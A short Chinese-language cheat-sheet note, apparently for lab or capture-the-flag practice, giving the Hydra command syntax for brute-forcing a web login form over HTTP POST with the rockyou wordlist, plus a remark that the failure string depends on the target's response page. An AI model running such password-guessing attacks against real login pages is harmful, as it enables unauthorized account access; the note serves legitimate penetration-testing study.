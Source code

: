 ## hydra破解web登录解密的格式

### 1.POST的形式
```
hydra -l user_name -P /usr/share/wordlist/rockyou.txt IP_address http-post-form "/login:user=^USER^&passwd=^PASS^:F=incorrect
"F="后面的文字得根据返回的页面文字来定，不同的靶机不一样
```
